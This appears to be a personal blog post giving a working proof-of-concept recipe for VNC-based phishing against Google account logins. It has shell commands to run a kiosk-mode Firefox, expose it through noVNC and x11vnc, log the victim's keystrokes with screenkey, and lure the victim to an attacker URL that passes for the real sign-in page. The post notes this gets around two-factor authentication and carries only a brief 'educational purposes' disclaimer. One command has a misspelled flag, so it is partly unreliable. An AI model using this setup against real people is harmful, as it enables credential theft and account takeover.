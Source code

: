 ```yaml
---
layout: distill
title: Phishing Attacks with VNC
date: 2024-05-04
description: TBA
tags: tag, tag
categories: TBA
pretty_table: true
thumbnail: TBA
toc:
  - name: Introduction
  - name: Important Disclaimer
  - name: Security Context
  - name: PoC
  - name: Conclusions
  - name: Credits
---
```


### Introduction

On February 19, 2022, [Mr. d0x](https://twitter.com/mrd0x) a cybersecurity researcher introduced a method that uses VNC for phishing attacks. I was impressed by the cleverness of this idea.

### Background

VNC, or Virtual Network Computing, is a way to share screens and control another computer remotely. It works by installing a VNC server on the computer you want to control, and a VNC viewer on the device you're using to control it.

Using VNC in a phishing attack is straightforward. We set up a VNC server, share our screen, specifically our browser window, and trick the victim into believing they are controlling their own browser while they are actually connected to our browser, allowing us to intercept any data that passes.

Using a library called [noVNC](https://novnc.com/), we can establish connections to VNC servers through modern web browsers.

This phishing technique has several benefits over traditional phishing methods:

- We can record all keystrokes made by the victim
- We can watch in real-time what the victim is doing on a website
- Regular Two-factor authentication will not protect against this type of attack

### Important Disclaimer

The information provided is for educational purposes only. I do not take responsibility for any actions taken based on the information provided.

### Security Context

Please note that the PoC demonstrated in this guide is not safe for "production" use, as it lacking essential security configurations.

---

### Prerequisites

- Linux

---

### PoC

#### Firefox

First, we launch Firefox or any other browser in kiosk mode with the website we want to phish. For this example, we will use Google accounts.

Kiosk mode is a feature that can restrict user activities and interactions outside the intended scope of operation, this is necessary to prevent the victim from controlling other areas of our attacking machine, which may lead to unwanted access or control.

In the terminal, execute:

```bash
firefox --kisok https://accounts.google.com
```

#### noVNC

Now, in a new terminal window, we will run a noVNC server:

```bash
git clone https://github.com/novnc/noVNC
cd noVNC
./utils/novnc_proxy --listen 0.0.0.0:8080 --vnc localhost:5900
```

{% include figure.liquid loading="eager" path="assets/img/posts/2/2.png" class="img-fluid rounded z-depth-1" zoomable=true %}

#### VNC

Now, we need to obtain the ID of the running Firefox process:

1. Run `xwininfo | grep id` in the terminal
2. Click on the Firefox window.
3. In the terminal, the window ID will be displayed.

{% include figure.liquid loading="eager" path="assets/img/posts/2/3.png" class="img-fluid rounded z-depth-1" zoomable=true %}

Once we have obtained the window ID of Firefox using `xwininfo`, we can start a local VNC server by running:

```bash
sudo apt update
sudo apt install x11vnc
x11vnc -id <window_id>
```

#### Keystroke Logger

Once we have started the local VNC server, we can use the screenkey tool to view key presses by the victim in real time. It is important to note that screenkey will display our own key presses as well.

```
sudo apt install screenkey -y
screenkey
```

#### Victim

Almost there! The last step is to have the victim open their browser and enter the following URL: `http://<ip>:8080/vnc.html?autoconnect=true`. Once they enter this URL, they will see what looks like the Google accounts login page. Little do they know, it's actually a live streaming video that they can interact with. It's a pretty sneaky and clever trick.

{% include figure.liquid loading="eager" path="assets/img/posts/2/4.png" class="img-fluid rounded z-depth-1" zoomable=true %}
